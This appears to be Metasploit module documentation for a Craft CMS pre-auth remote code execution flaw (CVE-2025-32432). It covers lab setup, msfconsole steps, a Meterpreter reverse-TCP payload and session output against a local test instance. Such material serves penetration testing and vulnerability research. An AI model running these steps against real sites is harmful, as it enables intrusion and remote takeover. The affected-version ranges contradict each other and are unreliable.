 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Craft CMS.

The vulnerability lies in improper handling of image transformations, which can be exploited to
inject and execute arbitrary PHP code on the server via crafted HTTP requests.

---

### Affected Versions

- **3.x series**: `>= 3.9.15`
- **4.x series**: `>= 4.14.15`
- **5.x series**: `>= 5.6.17`

---

### Setting Up a Vulnerable Lab

To test this exploit, follow these steps to set up a vulnerable Craft CMS environment.

#### Docker Setup

Install a specific vulnerable version of Craft CMS:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
    # Configure DDEV (https://ddev.com/) project for Craft CMS \
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="postgres:15" \
  --nodejs-version="20" && \
    # Create the DDEV project
ddev start -y && \
    # Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
    # Install a vulnerable Craft CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
    # Set the security key for Craft CMS
ddev craft setup/security-key && \
    # Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
ddev restart && \
    # Launch the project
echo 'Setup complete. Launching the project.' && \
ddev launch
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.


## Options

The module has the following option:

- **ASSET_ID**: This option is required for older versions of Craft CMS, particularly in the 3.x series.
    It specifies the asset ID for the Craft CMS instance. For 3.x versions, this ID must be set correctly to exploit the vulnerability.

For example, if you are targeting a Craft CMS version from the `>= 3.0.0`, `< 3.9.14`, make sure to specify the correct `ASSET_ID`.
This is necessary for successful exploitation when dealing with these versions.

## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Optionally, customize FTP-related settings like `SRVPORT` and `FETCH_URIPATH` if needed:
```bash
set SRVPORT 9090
set FETCH_SRVPORT 8081
set FETCH_URIPATH /custom_payload_path
```

8. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

##### For `ARCH_PHP`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ASSET_ID   60               yes       Existing asset ID
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (40004 bytes) to 172.24.0.2
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.24.0.2:42740) at 2025-04-26 05:00:08 +0200

meterpreter > sysinfo
Computer    : exploit-craft-web
OS          : Linux exploit-craft-web 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

##### For `ARCH_CMD`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (3045380 bytes) to 172.24.0.2
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.24.0.2:47562) at 2025-04-26 05:02:02 +0200

meterpreter > sysinfo
Computer     : 172.24.0.2
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
